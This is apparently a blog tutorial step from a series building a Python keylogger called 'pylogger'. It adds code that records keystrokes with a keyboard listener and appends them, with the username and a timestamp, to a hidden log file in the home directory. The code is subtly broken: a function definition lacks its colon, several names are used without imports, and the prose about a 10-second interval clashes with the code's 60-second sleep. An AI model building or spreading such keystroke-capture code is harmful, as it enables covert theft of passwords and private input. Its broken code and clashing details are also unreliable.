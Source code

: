 ```yaml
---
title: "Write Don't Print"
date: "2022-04-03"
weight: 135
---
```


## Write Don't Print

A log shouldn't print to STDOUT, it should append to an existing log file.

More modifications:

## The Setup

We need to write to a specific file. So let's check for an existing directory, and if it doesn't exist create it. Similarly, let's create a function to append a line to a file.

### Imports

```python
from os import mkdir, environ
from os.path import exists
```

### Check for Directory

```python
def check_make_directory(dir_path)
    if not exists(dir_path):
        mkdir(dir_path)
```

### Append Line to File

```python
def append_line(filepath, line):
    with open(filepath, 'a') as the_file:
        the_file.write(f"{line}\n")
```

## The Code

Let's use these new functions:

```python
if __name__ == "__main__":
    log_dir = f"{environ['HOME']}/.pylogger"
    log_file = f"{log_dir}/log"
    check_make_directory(log_dir)
    while True:
        log = []
        listener = keyboard.Listener(on_press=on_press)
        listener.start()
        sleep(60)
        listener.stop()
        log_line = f"{getlogin()} -- {asctime(localtime())}: {''.join(log)}"
        append_line(log_file, log_line)
```

That'll probably do it.

## Validation

![Write to file output](pictures/write.png)

It created the directory, the log file and started dumping logs into the file.

Looking at the log timestamps it is recording every 10 seconds, we can simply update the `sleep()` function to wait for however long we want our logs to last, I would choose 60 seconds.

## Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/6cf0f7d05b5a143558c0bc1a6afdfefebf6588b7/pylogger/main.py)